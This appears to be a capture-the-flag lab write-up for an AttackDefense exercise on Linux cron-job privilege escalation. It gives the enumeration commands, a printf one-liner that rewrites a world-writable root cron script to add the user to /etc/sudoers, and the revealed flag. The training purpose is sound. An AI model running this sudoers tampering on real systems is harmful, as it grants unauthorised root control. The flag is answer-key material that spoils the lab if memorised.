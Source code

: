 # 🔬Cron Jobs

## Lab 1

>  🔬 [Cron Jobs Gone Wild II](https://www.attackdefense.com/challengedetails?cid=77)
>
>  - Target IP: `192.209.45.3`
>  - **Cron Jobs** Privilege escalation
>  - Allready logged on as `student` unprivileged user

```bash
whoami
groups student
cat /etc/passwd
crontab -l
```

> 📌 `student` user has no privileges and no scheduled cron jobs

![](.gitbook/assets/image-20230319190830023.png)

```bash
ls -l
	-rw------- 1 root root 26 Sep 23  2018 message
# "message" file has root permissions
```

### Cron Jobs Identify

- Look for all occurences of the path or the file, on the system

```bash
find / -name message
    /home/student/message
	find: '/var/lib/apt/lists/partial': Permission denied
    [...]
    /tmp/message
```

```bash
grep -rnw /usr -e "/home/student/message"
	/usr/local/share/copy.sh:2:cp /home/student/message /tmp/message
```

- The file has been copied into the /tmp directory

```bash
cat /tmp/message
	Hey!! you are not root :(
```

- Check `copy.sh` privileges

```bash
ls -al /usr/local/share/copy.sh
	-rwxrwxrwx 1 root root 74 Sep 23  2018 /usr/local/share/copy.sh
	
cat /usr/local/share/copy.sh
    #! /bin/bash
    cp /home/student/message /tmp/message
    chmod 644 /tmp/message
```

### Privesc

- Every user account has read/write/execute permissions on the `copy.sh` script
- The script is writable by the `student` user. Modify the script to execute a command (`e.g.` a*dding **student** to `sudoers` file*).
  - When the script is executed by `root` cron job (*every 1 min for this lab*), it will run commands with pivileged permissions
  - No text editors available in the lab

```bash
printf '#!/bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/copy.sh

cat /usr/local/share/copy.sh
    #!/bin/bash
    echo "student ALL=NOPASSWD:ALL" >> /etc/sudoers
```

```bash
sudo -l

    User student may run the following commands on attackdefense:
        (root) NOPASSWD: /etc/init.d/cron
        (root) NOPASSWD: ALL
```

![sudo -l](.gitbook/assets/image-20230319192443704.png)

```bash
sudo su
whoami
	root
cd /root
cat flag
```

```bash
crontab -l
	*/01 * * * * sh /usr/local/share/copy.sh *
```



<details>
<summary>Reveal Flag: 🚩</summary>



`697914df7a07bb9b718c8ed258150164`

![](.gitbook/assets/image-20230319192539065.png)

</details>

------

